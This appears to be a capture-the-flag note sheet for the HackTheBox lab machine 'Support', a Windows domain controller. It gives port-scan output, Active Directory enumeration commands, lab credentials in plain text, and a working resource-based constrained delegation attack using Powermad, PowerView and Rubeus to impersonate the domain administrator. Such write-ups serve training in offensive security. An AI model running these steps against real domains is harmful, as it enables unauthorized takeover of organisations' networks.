

# Summary


## about target

tip:  10.129.227.255

hostname:  Support

Difficulty:  Easy


## about attack


**attack note**

```bash
Support / 10.129.227.255

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-01-03 14:46:45Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
52787/tcp open  msrpc         Microsoft Windows RPC

---- Interesting
-- from enum4liux
Domain Name: SUPPORT
Domain Sid: S-1-5-21-1677581083-3380853377-188903654

Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:Fal


---- ad Enum 
enum4linux -a $tip | tee enum4linux.log
smbclient -L $tip -U "" -N
smbmap -H $tip -u null
crackmapexec smb $tip -u '' -p '' --shares

ldapsearch -H ldap://$tip -x -b "DC=support,DC=htb"  > ldap-anonymous.log
ldapsearch -H ldap://$tip -x -b "DC=support,DC=htb" '(Objectclass=user)' samaccountname | grep -i samaccountname
ldapsearch -H ldap://$tip  -x -s base namingcontexts


bloodhound-python -c All -u ldap  -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -dc dc.support.htb --dns-tcp  -ns $tip

ldapsearch -H ldap://$tip -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb"

crackmapexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'


---- Foothold


---- System

https://github.com/Kevin-Robertson/Powermad

# new computer 
New-MachineAccount -MachineAccount fakecomputer -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
get-domaincomputer fakecomputer
S-1-5-21-1677581083-3380853377-188903654-5601

# config rbcd
$ComputerSid = Get-DomainComputer fakecomputer -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# attack
.\rb.exe hash /password:123456
32ED87BDB5FDC5E9CBA88547376818D4

.\rb.exe s4u /user:fakecomputer$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```


# Enum

## nmap scan


```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```





# Foothold


# Privesc


## proof

```bash


```


